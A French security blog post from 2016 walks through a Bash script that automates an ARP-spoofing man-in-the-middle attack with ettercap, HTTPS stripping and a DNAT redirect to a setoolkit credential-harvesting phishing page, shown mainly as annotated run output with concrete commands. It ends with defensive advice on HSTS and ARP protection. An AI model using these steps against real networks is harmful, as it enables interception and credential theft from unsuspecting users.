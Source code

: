 ```yaml
---
layout: post
title:  "Phising d'un site web avec attaque MITM"
date:   2016-09-08
categories: mitm
---
```

Comment sniffer en toute impunité.
----------

Hi Everybody,

Je me suis dit qu'il était intéressant de partager avec vous un petit script **Bash** que j'ai créé pour automatiser une attaque MITM et rediriger vers une fausse page web que nous allons héberger ([https://github.com/phackt/Workshops/tree/master/mitm/phishing](https://github.com/phackt/Workshops/tree/master/mitm/phishing)). L'objectif est pour une attaque ciblée de rendre l'obtention des credentials la plus transparente possible. Cependant il n'existe pas de solution miracle, à chaque combat sa stratégie.  
  
Ici nous allons donc cibler un site possédant une page d'accueil non sécurisée (HTTP), permettant l'interception en clair des liens HTTPS et de les transformer en liens HTTP classiques. Certains outils comme [sslstrip](https://github.com/moxie0/sslstrip) permettent ce genre d'opérations, en éliminant le caching des pages et en traitant également les headers response **Location** lors des redirections. De notre coté nous utiliserons un simple filtre [ettercap](https://github.com/Ettercap/ettercap) que nous compilerons avec etterfilter.  
  
Pour petit rappel:  

 > L'attaque de l'homme du milieu ou man-in-the-middle attack (MITM) est une attaque qui a pour but d'intercepter les communications entre deux parties, sans que ni l'une ni l'autre ne puisse se douter que le canal de communication entre elles a été compromis.  
  
![Mitm]({{ site.url }}/public/images/mitm-phishing/owasp-man_in_the_middle.jpg)  
Cette attaque se base sur la corruption du cache ARP enregistrant les correspondances @IP <-> @MAC sur un réseau local. Vous regarderez les HotSpot et autres Wifi gratuits d'un autre oeil ;). Il existe plusieurs outils pour effectuer une [attaque MITM](https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/) et nous utiliserons Ettercap.  
  
Le site web a été falsifié grâce à l'outil [setoolkit](https://github.com/trustedsec/social-engineer-toolkit) (Social-Engineer Toolkit). Concernant la redirection du domaine, j'ai simplement effectué une règle iptables PREROUTING DNAT au lieu d'effectuer un DNS SPOOFING qui aurait demandé que le cache DNS soit vidé.   
  
Mais venons-en au cas pratique concernant l'exécution du script **phishing.ksh**:  
  
```bash
-----------------------------------------------
   --==MITM attack with website phishing==--   
-----------------------------------------------

[+] Flushing ip forwarding
[+] Flushing iptables

#HERE SET THE NAME OF THE LOG DIR THAT WILL BE CREATED
Name of 'Session'? (name of the folder that will be created with all the log files): test

#CHOOSE YOUR INTERFACE UP
[+] Discovering interfaces
lo:     state  UNKNOWN
eth0:   state  DOWN
wlan0:  state  UP
Please enter your interface: wlan0

#IF YOU WANNA CHANGE YOUR MAC ADDRESS (http://www.macvendors.com/)
Do you wanna spoof MAC @ ? [yYnN]: n

#TYPE THE DOMAIN THAT WILL BE REDIRECTED TO YOUR WEBSITE
Which domain do you wish to redirect ?: secure.domain.fr

#ASSUMING 192.168.1.99 IS THE MITM MACHINE LOCAL IP WITH APACHE RUNNING
[+] Setting up DNAT iptables rule
iptables -t nat -A PREROUTING -p tcp --dport 80 -d secure.domain.fr -j DNAT --to-destination 192.168.1.99:8080

#IF YOU WANNA RUN SETOOLKIT ( choose options 1) Social-Engineering -> 2) Website Attack Vectors -> 3) Credential Harvester Attack Method )
[+] Setting up website phishing
Do you wanna run setoolkit ? [yYnN]: n

[+] Starting apache2 service

#RUN NETDISCOVER IN ORDER TO ARPING THE SUBNET
[+] Net discovering
Do you wanna netdiscovering ? [yYnN]: y
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     01:12:23:34:45:56      1      42  Gateway
 192.168.1.100   12:23:34:45:56:67      2      84  Apple Macbook Pro

-- Active scan completed, 1 Hosts found.


[+] Routing information
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
192.168.1.0     0.0.0.0         255.255.255.0   U     600    0        0 wlan0

#CHOOSE THE VICTIM
Enter target1 ip: 192.168.1.11
#CHOOSE THE SECOND MACHINE (DEFAULT IS GATEWAY)
Enter target2 ip [press enter for default gateway 192.168.1.1]: 

#LAUNCHING ETTERCAP WITH THE HTTPS STRIP ETTERCAP FILTER (https_strip.ef)
[+] Running MITM attack...

#IF YOU NEED TO LEGITIMATE AN ARP REPLY (IF GATEWAY IS A PRETENTIOUS YOUNG MADAM)
/!\ Please check poisoning is OK by typing 'P', then 'chk_poison'
Command for protected gateway: 
dhcping -c 192.168.1.100 -h 12:23:34:45:56:67 -s 192.168.1.1 -r -v

#SNIFFING HTTP REQUESTS
[+] Starting GET/POST logging...
urlsnarf: listening on wlan0 [tcp port 80 or port 8080 or port 3128]

#TAILING PHISHING WEBSITE HARVESTER FILE
[+] Looking for credentials...

[+] IMPORTANT...
After the job please close this script and clean up properly by hitting 'qQ'
```

Les outils MITM peuvent également forger dynamiquement un certificat pour interception des connexions TLS/SSL. Cependant ce dernier n'étant pas signé par une autorité de certification, un warning dans votre navigateur affichera que le certificat est non valide (assez discret sous Safari cependant)...  

![Certificat]({{ site.url }}/public/images/mitm-phishing/alerte-certificat.png)  

 > <span style="color: red">Cliquez sur 'Back to safety'!!</span>
  
Dans notre exemple, la connexion au site falsifié est non sécurisée (évitant les alertes de certificats). Donc vérifier toujours le cadenas vert dans la barre url et que votre connexion soit sécurisée, sinon COURREZZZZZ :shipit: !!!!. Nous voyons aussi l'importance du HSTS (Strict-Transport-Security) abordé dans les [précédents articles]({{ site.url }}/xss-cors-csrf-partie-3-cors-csrf#hsts) pour forcer les connexions HTTPS et bannir tout certificat non valide. Des méthodes de détection d'ARP spoofing existent, la plus contraignante étant l'ajout statique d'une correspondance dans la table ARP. Certains firewall (ex [Symantec](https://www.symantec.com/security_response/glossary/define.jsp?letter=a&word=anti-mac-spoofing)) empêchent les ARP Reply non légitimes. Réfléchissez donc deux fois avant de vous connecter à un HotSpot.
  
A bientôt et surtout...   

```
Keep the positive attitude ;) !
```
<br />
<br />
Références :  
[https://www.owasp.org/index.php/Man-in-the-middle_attack](https://www.owasp.org/index.php/Man-in-the-middle_attack)  
[https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/](https://www.owasp.org/index.php/Man-in-the-middle_attack)